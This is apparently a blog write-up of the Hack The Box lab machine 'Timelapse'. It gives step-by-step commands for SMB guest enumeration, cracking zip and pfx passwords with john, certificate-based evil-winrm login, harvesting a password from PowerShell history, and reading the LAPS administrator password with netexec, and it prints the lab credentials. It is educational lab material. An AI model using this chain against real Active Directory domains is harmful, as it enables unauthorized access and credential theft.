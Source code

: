 ```yaml
---
title: HTB - Timelapse (Easy)
date: '2025-07-15'
tags: ['machine', 'windows', 'Active Directory', 'LAPS', 'pfx2john', 'SSL', 'ReadLAPSPassword']
draft: false
summary: Guest logon enumeration was allowed that lead to a zip and pfx file that was crackable by John, giving user access and then discovering Powershell history commands that lead to mapping DACLs hinting at LAPS being enabled. This also lead to reading the DA password in plaintext
---
```


<TOCInline toc={props.toc} asDisclosure />

## Scanning

```
❯ nmap -sV -sC -v -Pn 10.129.233.112

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-15 02:40 +08
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 02:40
Completed NSE at 02:40, 0.00s elapsed
Initiating NSE at 02:40
Completed NSE at 02:40, 0.00s elapsed
Initiating NSE at 02:40
Completed NSE at 02:40, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 02:40
Completed Parallel DNS resolution of 1 host. at 02:40, 0.01s elapsed
Initiating Connect Scan at 02:40
Scanning 10.129.233.112 [1000 ports]
Discovered open port 139/tcp on 10.129.233.112
Discovered open port 53/tcp on 10.129.233.112
Discovered open port 135/tcp on 10.129.233.112
Discovered open port 445/tcp on 10.129.233.112
Discovered open port 3268/tcp on 10.129.233.112
Discovered open port 389/tcp on 10.129.233.112
Discovered open port 593/tcp on 10.129.233.112
Discovered open port 88/tcp on 10.129.233.112
Discovered open port 636/tcp on 10.129.233.112
Discovered open port 3269/tcp on 10.129.233.112
Discovered open port 464/tcp on 10.129.233.112
Completed Connect Scan at 02:40, 4.54s elapsed (1000 total ports)
Initiating Service scan at 02:40
Scanning 11 services on 10.129.233.112
Completed Service scan at 02:40, 9.60s elapsed (11 services on 1 host)
NSE: Script scanning 10.129.233.112.
Initiating NSE at 02:40
Completed NSE at 02:41, 40.09s elapsed
Initiating NSE at 02:41
Completed NSE at 02:41, 0.46s elapsed
Initiating NSE at 02:41
Completed NSE at 02:41, 0.00s elapsed
Nmap scan report for 10.129.233.112
Host is up (0.018s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE           VERSION
53/tcp   open  domain            Simple DNS Plus
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2025-07-15 02:40:54Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp open  globalcatLDAPssl?
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-07-15T02:40:59
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 7h59m58s

NSE: Script Post-scanning.
Initiating NSE at 02:41
Completed NSE at 02:41, 0.00s elapsed
Initiating NSE at 02:41
Completed NSE at 02:41, 0.00s elapsed
Initiating NSE at 02:41
Completed NSE at 02:41, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.98 seconds
```
---

## Enumeration

Guest logon is enabled, let's try enumerate shares

![Description](/static/images/htb/windows/timelapse/1.jpg)

```
❯ smbclient -L timelapse.htb -U a%
```

![Description](/static/images/htb/windows/timelapse/2.jpg)

We can see a non-default share called `Shares`. Listing that reveals a few files

![Description](/static/images/htb/windows/timelapse/3.jpg)

Some of them are an installer and guide and specification on setting up LAPS. This may be
hinting that the target server domain uses LAPS

>[!TIP]
> Local Administrator Password Solution (LAPS) is a tool used for managing a system where
> administrator-passwords, which are unique, randomized and frequently changed are applied
> domain-joined computers

Another interesting file is the zip file called `winrm-backup` which maybe has credentials that
allows us to WinRM to the target. 

Attempting to unzip it will prompt us for a password to unlock a `.pfx` file which is a bianry file that contains a
certificate (public key), private key and a certificate chain

![Description](/static/images/htb/windows/timelapse/4.jpg)

---

## Cracking

After much enumeration that leads to nowhere, I decided to bruteforce the password of the zip file using `zip2john`

```
❯ zip2john winrm_backup.zip > hash.txt                                 
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![Description](/static/images/htb/windows/timelapse/5.jpg)

Great now we have the `legacyy_dev_auth.pfx` file. Now the thing with `.pfx` or `pkcs12` files is that they are password-protected unlike `.pem` files

I found this neat tool, pfx2john which is basically what it sounds like xD, means we can also bruteforce the `.pfx` file password

```
❯ pfx2john legacyy_dev_auth.pfx > pfx_hash.txt
❯ john --wordlist=/usr/share/wordlists/rockyou.txt pfx_hash.txt
```

![Description](/static/images/htb/windows/timelapse/6.jpg)

---

## Gaining Access

Nice, now we also have the password of the `.pfx` file, another thing I also learned is we can use this file
to have an SSL WinRM session on the target! but first, we need to split the `.pfx` file into `.pem` and `.crt`.

```
❯ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
❯ openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert.crt -nodes
```

Then, we supply them as arguments into `evil-winrm` but we need to also specify `-S` argument because we are authenticating over SSL

```
❯ evil-winrm -i timelapse.htb -S -k key.pem -c cert.crt
```

![Description](/static/images/htb/windows/timelapse/7.jpg)

---

## Privilege Escalation

I uploaded and ran Winpeas and saw some interesting stuff like this Powershell history file being present

![Description](/static/images/htb/windows/timelapse/8.jpg)

Concatenating the file reveals past Powershell commands that were ran on the target. We can see here that
it reveals the password of the user `svc_deploy`. 

![Description](/static/images/htb/windows/timelapse/9.jpg)

Let us verify the credentials

![Description](/static/images/htb/windows/timelapse/10.jpg)

Yep, its correct. Now we can run Bloodhound to map some potential DACLs

```
❯ nxc ldap timelapse.htb -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' --dns-server 10.129.233.112 --bloodhound --collection All
```

![Description](/static/images/htb/windows/timelapse/12.jpg)

Looking at Bloodhound, we can see `svc_deploy` is a member of the  `Laps_Readers` group that has a `ReadLAPSPassword` Edge.
This means we can use his credentials to read the password of `Administrator`

Luckily, Netexec has a command option that helps us with this

```
❯ nxc smb timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' --laps
```

![Description](/static/images/htb/windows/timelapse/13.jpg)

Boom! just like that we have `Administrator`'s credentials, let us verify this

![Description](/static/images/htb/windows/timelapse/14.jpg)

Yes, it is correct. We can proceed to WinRM with the SSL option

```
❯ evil-winrm -i timelapse.htb -u administrator -p '@-u{P+{oYZ[C9g%}S1!%XP}m' -S
```

![Description](/static/images/htb/windows/timelapse/15.jpg)

Whas was weird was the root flag was nowhere to be seen. This was a first xD. So i went to look at the Users and saw
mr `TRX` over here

![Description](/static/images/htb/windows/timelapse/16.jpg)

And the root flag was there!

![Description](/static/images/htb/windows/timelapse/17.jpg)





